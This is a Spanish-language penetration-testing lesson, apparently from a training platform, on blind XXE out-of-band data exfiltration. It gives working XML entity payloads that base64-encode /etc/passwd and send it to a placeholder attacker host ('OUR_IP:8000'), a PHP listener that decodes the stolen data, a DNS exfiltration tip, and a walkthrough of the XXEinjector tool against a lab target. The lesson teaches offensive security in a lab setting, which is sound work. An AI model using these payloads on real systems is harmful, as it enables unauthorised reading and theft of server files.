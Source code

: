 En la sección anterior, vimos un ejemplo de una vulnerabilidad XXE ciega, donde no recibimos ninguna salida que contuviera alguna de nuestras entidades de entrada XML. Como el servidor web mostraba errores de ejecución de PHP, pudimos utilizar esta falla para leer el contenido de los archivos desde los errores mostrados. En esta sección, veremos cómo podemos obtener el contenido de los archivos en una situación completamente ciega, donde no obtenemos la salida de ninguna de las entidades XML ni se muestran errores de PHP.

---

## Out-of-band Data Exfiltration

Si intentamos repetir alguno de los métodos con el ejercicio que encontramos en `/blind`, notaremos rápidamente que ninguno de ellos parece funcionar, ya que no tenemos forma de imprimir nada en la respuesta de la aplicación web. Para estos casos, podemos utilizar un método conocido como `Out-of-band (OOB) Data Exfiltration`, que a menudo se utiliza en casos ciegos similares con muchos ataques web, como inyecciones SQL ciegas, inyecciones de comandos ciegas, XSS ciegas y, por supuesto, XXE ciegas. Tanto los módulos [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) como [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) discutieron ataques similares, y aquí utilizaremos un ataque similar, con ligeras modificaciones para adaptarnos a nuestra vulnerabilidad XXE.

En nuestros ataques anteriores, utilizamos un ataque `out-of-band` ya que alojamos el archivo DTD en nuestra máquina e hicimos que la aplicación web se conectara a nosotros (por lo tanto, fuera de banda). Entonces, nuestro ataque esta vez será bastante similar, con una diferencia significativa. En lugar de hacer que la aplicación web envíe nuestra entidad `file` a una entidad XML específica, haremos que la aplicación web envíe una solicitud web a nuestro servidor web con el contenido del archivo que estamos leyendo.

Para hacerlo, primero podemos usar una entidad de parámetro para el contenido del archivo que estamos leyendo mientras utilizamos PHP filter para codificarlo en base64. Luego, crearemos otra entidad de parámetro externa y la referenciamos a nuestra IP, y colocamos el valor del parámetro `file` como parte de la URL solicitada a través de HTTP, de la siguiente manera:


```r
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

Si, por ejemplo, el archivo que queremos leer tenía el contenido de `XXE_SAMPLE_DATA`, entonces el parámetro `file` contendría sus datos codificados en base64 (`WFhFX1NBTVBMRV9EQVRB`). Cuando el XML intenta referenciar el parámetro externo `oob` desde nuestra máquina, solicitará `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finalmente, podemos decodificar la cadena `WFhFX1NBTVBMRV9EQVRB` para obtener el contenido del archivo. Incluso podemos escribir un simple script PHP que detecte automáticamente el contenido del archivo codificado, lo decodifique y lo muestre en el terminal:


```r
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Entonces, primero escribiremos el código PHP anterior en `index.php`, y luego iniciaremos un servidor PHP en el puerto `8000`, de la siguiente manera:


```r
vi index.php # aquí escribimos el código PHP anterior
php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Ahora, para iniciar nuestro ataque, podemos usar un payload similar al que usamos en el ataque basado en errores, y simplemente agregar `<root>&content;</root>`, que es necesario para referenciar nuestra entidad y hacer que envíe la solicitud a nuestra máquina con el contenido del archivo:


```r
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Luego, podemos enviar nuestra solicitud a la aplicación web: ![blind_request](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

Finalmente, podemos regresar a nuestro terminal, y veremos que efectivamente recibimos la solicitud y su contenido decodificado:


```r
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

**Tip:** Además de almacenar nuestros datos codificados en base64 como un parámetro en nuestra URL, podemos utilizar `DNS OOB Exfiltration` colocando los datos codificados como un subdominio para nuestra URL (por ejemplo, `ENCODEDTEXT.our.website.com`), y luego usar una herramienta como `tcpdump` para capturar cualquier tráfico entrante y decodificar la cadena del subdominio para obtener los datos. Por supuesto, este método es más avanzado y requiere más esfuerzo para exfiltrar datos.

---

## Automated OOB Exfiltration

Aunque en algunas ocasiones podemos tener que usar el método manual que aprendimos anteriormente, en muchos otros casos, podemos automatizar el proceso de exfiltración de datos XXE ciegos con herramientas. Una de esas herramientas es [XXEinjector](https://github.com/enjoiz/XXEinjector). Esta herramienta soporta la mayoría de los trucos que aprendimos en este módulo, incluyendo XXE básica, exfiltración de fuente CDATA, XXE basada en errores y XXE ciega OOB.

Para usar esta herramienta para la exfiltración automatizada OOB, primero podemos clonar la herramienta en nuestra máquina, de la siguiente manera:


```r
git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Una vez que tengamos la herramienta, podemos copiar la solicitud HTTP desde Burp y escribirla en un archivo para que la herramienta la use. No debemos incluir los datos XML completos, solo la primera línea, y escribir `XXEINJECT` después como un localizador de posición para la herramienta:


```r
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Ahora, podemos ejecutar la herramienta con las flags `--host`/`--httpport` siendo nuestra IP y puerto, la flag `--file` siendo el archivo que escribimos anteriormente, y la flag `--path` siendo el archivo que queremos leer. También seleccionaremos las flags `--oob=http` y `--phpfilter` para repetir el ataque OOB que hicimos anteriormente, de la siguiente manera:


```r
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

Vemos que la herramienta no imprimió directamente los datos. Esto se debe a que estamos codificando los datos en base64, por lo que no se imprimen. En cualquier caso, todos los archivos exfiltrados se almacenan en la carpeta `Logs` bajo la herramienta, y podemos encontrar nuestro archivo allí:


```r
cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

Intenta usar la herramienta para repetir otros métodos XXE que aprendimos.